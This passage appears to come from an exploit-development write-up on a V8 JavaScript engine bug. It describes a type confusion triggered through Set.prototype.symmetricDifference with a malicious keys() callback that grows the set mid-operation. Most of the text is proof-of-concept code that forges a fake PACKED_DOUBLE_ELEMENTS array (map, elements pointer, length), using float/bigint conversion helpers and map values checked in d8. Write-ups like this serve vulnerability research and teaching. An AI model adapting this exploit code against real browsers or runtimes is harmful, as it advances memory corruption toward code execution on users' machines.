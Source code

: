 that looks like a type confusion to me :D

Looking at the exploit they seem to use a `PACKED_DOUBLE_ELEMENTS` which is like a list or something? but anyways this is the metadata we need to use the object:
```javascript
let fi_buf = new ArrayBuffer(8); // shared buffer
let f_buf = new Float64Array(fi_buf); // buffer for float
let i_buf = new BigUint64Array(fi_buf); // buffer for bigint

function itof(i) {
    i_buf[0] = i;
    return f_buf[0];
}

let fake_arr_struct;

let map = 0x18efb1n; // PACKED_DOUBLE_ELEMENTS
let properties = 0x6cdn; // FixedArray[0]
let elements = 0x41414141n; // arbitrary address
let length = 1n << 1n; // length: 1

fake_arr_struct[0] = itof(map | properties << 32n);
fake_arr_struct[1] = itof(elements | length << 32n);
```

We should update the PACKED_DOUBLE_ELEMENTS value to match our system first:
```js
d8> % DebugPrint([1.1])
DebugPrint: 0000020E00049B49: [JSArray]
 - map: 0x020e0018ed71 <Map[16](PACKED_DOUBLE_ELEMENTS)> [FastProperties]
```

Adding that to the poc:
```js

let fi_buf = new ArrayBuffer(8); // shared buffer
let f_buf = new Float64Array(fi_buf); // buffer for float
let i_buf = new BigUint64Array(fi_buf); // buffer for bigint

function itof(i) {
    i_buf[0] = i;
    return f_buf[0];
}

let a = new Set();  
let b = new Set();  

for (let i = 0; i < 32; i++) { a.add(i); } // elements: 16, capacity: 16 

let fake_arr_struct;

b.keys = () => {  
	fake_arr_struct = [1.1, 2.2];
	a.add(32);
    return b[Symbol.iterator]();  
}  

r = a.symmetricDifference(b);  

let map = 0x18ed71n; // PACKED_DOUBLE_ELEMENTS
let properties = 0x6cdn; // FixedArray[0]
let elements = 0x41414141; // arbitrary address
let length = 1n << 1n; // length: 1

fake_arr_struct[0] = itof(map | properties << 32n);
fake_arr_struct[1] = itof(elements | length << 32n);
```